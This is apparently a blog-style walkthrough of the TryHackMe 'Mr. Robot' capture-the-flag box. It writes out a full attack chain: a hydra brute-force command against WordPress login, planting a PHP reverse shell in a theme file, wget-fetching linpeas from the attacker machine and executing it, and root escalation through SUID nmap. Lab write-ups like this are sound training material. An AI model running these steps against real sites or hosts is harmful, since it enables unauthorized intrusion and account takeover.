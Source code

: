 ```yaml
---
layout: post
title: " Mr. Robot - TryHackMe"
date: 2020-07-12
excerpt: "Walkthrough for Mr. Robot on TryHackme"
tags: [Mr. Robot, TryHackMe]
comments: false
---
```


Below are the steps to get the 3 flags on the Mr. Robot box on [TryHackMe](https://www.tryhackme.com).

First, let's run nmap with **nmap -sC -sV -O -T4 [machine ip]**. This will return ssh which is marked as closed, and both ports 80 and 443 which are open.

![Mr. Robot 1](/assets/img/MrRobot1.png)

Launching both sites leads to the same terminal window which seems to have some of the propaganda from the Mr. Robot fsociety. Let's use gobuster to enumerate the webserver with **gobuster dir -u http://[machine ip] -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt**.

After a bit, several interesting results come up as shown below.

![Mr. Robot 2](/assets/img/MrRobot2.png)

The hint for the first question also mentions **robots**, so let's look at **http://[machine ip]/robots.txt**. This leads to the following:

![Mr. Robot 3](/assets/img/MrRobot3.png)

Let's visit key-1-of-3.txt by going to **http://[machine ip]/key-1-of-3.txt**. This is where the first key to this challenge is located.

![Mr. Robot 3 key1](/assets/img/MrRobot4.png)

Next, let's go to **http://[machine ip]/fsocity.dic**. This is a dictionary file with a huge list of words that may prove useful later on. The other useful thing we found was that this appears to be a WordPress site, so let's go to **http://[machine ip]/wp-login**. This brings you to a WordPress login page as expected.

![Mr. Robot 5](/assets/img/MrRobot5.png)

WordPress contains a pretty poor security practice where it will tell you if a username does not exist. For example, I attempted with the user admin, and received this error message.

![Mr. Robot 6](/assets/img/MrRobot6.png)

In a real world scenario, you would probably create a list of users with cewl based off of the website or use some other dictionary file, but in this case, I guessed a few characters from the television series, which led to **Elliot** being uncovered as the login name.

![Mr. Robot 7](/assets/img/MrRobot7.png)

Now that we had a username to login with, let's use wpscan to brute force the password. The fsocity.dic file we saved earlier should be a good place to start, however, it has over 800,000 records in it. I assumed there were some duplicates, so I used sort and uniq to make it a more manageable list with. The command to run this is **sort fsocity.dic|uniq > UniquePasswords.txt**. This reduced the list down to around 11,000 unique entries, which will run much quicker when brute forcing passwords. 

![Mr. Robot 8](/assets/img/MrRobot8.png)

The comand to brute force in hydra is **hydra -l Elliot -P ~/Downloads/UniquePasswords.txt [machine ip] -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'**. This will return Elliot's password.

![Mr. Robot 9](/assets/img/MrRobot9.png)

Now that we have Elliot's password, let's login to the WordPress site. Once here, let's upload a reverse PHP shell. The one I recommend using is from [PentestMonkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell). Adjust the IP/Port to reflect your attacker machine's IP and the port you wish to connect with and save the shell. Next, let's click on **Appearance followed by Editor** on the left hand side. Choose one of the existing php files (I used**404.php**) to view it's contents, delete the contents of this file,  and paste the reverse shell into that file.

![Mr. Robot 10](/assets/img/MrRobot10.png)

When done, click on **Update File** at the bottom of the file to save it. 

![Mr. Robot 11](/assets/img/MrRobot11.png)

Now, try to navigate to a random page to trigger a 404 error, which should launch the reverse shell.

![](/assets/img/MrRobot12.png)

![Mr. Robot 13](/assets/img/MrRobot13.png)

We now have a reverse shell. **whoami** reveals we are running as daemon in the root directory. Let's navigate to home with **cd home** and run **ls** to view it's contents. There is a **robot** user folder here. Let's run **cd robot** followed by **ls** and we will see **key-2-of-3.txt** and **password.raw-md5**. **cat key-2-of-3.txt** will give you the 2nd key to this challenge, but we are not able to access it as daemon.

![Mr. Robot 14](/assets/img/MrRobot14.png)

Let's **cat** **password.raw-md5** and we will see that we have the hash for robot. 

![Mr. Robot 15](/assets/img/MrRobot15.png)

Let's copy and save this so we can crack it with john.![Mr. Robot 16](/assets/img/MrRobot16.png)

Since ssh is blocked, let's try to run **su robot** to swap from daemon to the robot user . We aren't able to because we're not running a terminal.

![Mr. Robot 17](/assets/img/MrRobot17.png)

Let's run **python -c 'import pty; pty.spawn("/bin/sh")'** to upgrade our shell and run **su robot** again. Now we are able to swap over to robot with the password we uncovered with john.

![Mr. Robot 18](/assets/img/MrRobot18.png)

Let's run **cat key-2-of-3.txt** and we are able to uncover this flag.

![Mr. Robot 19](/assets/img/MrRobot19.png)

On our attacker machine, lets serve up a python server with **python3 -m http.server**. Next, on our victim machine, run **cd /tmp** followed by **wget http://[your attacker ip]:8000/linpeas.sh** to download linpeas to the tmp directory of our victim. Next, run **chmod 777 linpeas.sh** to make it executable.

![Mr. Robot 20](/assets/img/MrRobot20.png)

Next, run **./linpeas.sh** to start enumerating the host. Partially through the script there is a list of SUID programs, and **nmap** stands out.

![Mr. Robot 21](/assets/img/MrRobot21.png)

Let's navigate to that folder with **cd /usr/local/bin** and run **nmap --help**. This is an older version of nmap (3.81), and it has an interactive mode that can be ran with the --interactive flag. 

![Mr. Robot 22](/assets/img/MrRobot22.png)

Let's run **nmap --interactive**. This is an old version of nmap, and this can be utilized to get a root shell since it is running as root due to the SUID flag.

![Mr. Robot 23](/assets/img/MrRobot23.png)

Let's run **cd /root** followed by **ls**. You will see the 3rd key file there. Run **cat key-3-of-3.txt** to get the final key!

![Mr. Robot 24](/assets/img/MrRobot24.png)